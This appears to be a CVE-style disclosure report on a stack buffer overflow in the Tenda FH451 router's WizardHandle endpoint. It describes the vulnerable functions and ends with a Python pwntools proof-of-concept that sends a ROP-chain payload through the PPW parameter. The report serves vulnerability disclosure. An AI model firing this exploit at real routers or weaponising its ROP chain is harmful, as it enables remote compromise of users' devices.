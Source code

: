 # Shenzhen Jixiang Tengda Technology Co., Ltd. FH451 has a Remote Code Execution vulnerability

**Vulnerability URL**: [http://0.0.0.0:80/goform/WizardHandle](http://0.0.0.0:80/goform/WizardHandle)

**Firmware Download Link:** [https://www.tenda.com.cn/material/show/1629](https://www.tenda.com.cn/material/show/1629)

## Vulnerability Analysis
The vulnerability occurs in the `fromWizardHandle` function.

![Image 1](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle1.png)

![Image 2](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle2.png)

![Image 3](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle3.png)

This function accepts the `WANT` and `WANS` parameter from a POST request. Within `v45` == 2, this function accepts the `PPW` parameter from a POST request, which is assigned to `sub_3C434(v30, v5)`;. However, since the user has control over the input of `PPW`, the function `decodePwd()` leads to a buffer overflow. The user-supplied `PPW` can exceed the capacity of the `v5` array, which can lead to a program crash or potential exploitation.  
The disassembled code of the function `sub_3C434` is as follows. It can be observed that this function does not perform bounds checking. It copies the `result` parameter byte-by-byte into the `a2` pointer parameter, which may potentially lead to a stack overflow.
![Image 4](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle4.png)

Cross-referenced location: from the `fromWizardHandle` function, routed to `WizardHandle`, at line 18.
![Image 5](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle5.png)

Further cross-referenced to the `sub_64EAC` function, with attention to lines 44 and 47.
![Image 6](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat3.png)

It can be determined that the vulnerability occurs at the page path `goform/WizardHandle`.

## payload
```python
import requests
from pwn import *

libc = ELF('./squashfs-root/lib/libc.so.0')
system_offset = libc.symbols["system"]
base = 0x3fe36000

system_addr = base + system_offset
puts = base+libc.symbols['puts']
str = b"hello-I-am-fzz\x00"
mov_r0 = base+0x00040cb8 # mov r0, sp; blx r3;
pop_r3 = base+0x00018298 # pop {r3, pc};
payload = b'a'*524 + p32(pop_r3)+p32(puts)+p32(mov_r0)+str

ip = '0.0.0.0:80'
url = f"http://{ip}/goform/WizardHandle"
data = {"WANS":"-1","WANT":"2","PPW":payload}
ret = requests.post(url, data)
```

# reproduce
![Image 7](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle6.png)
![Image 8](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle7.png)
![Image 9](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle8.png)
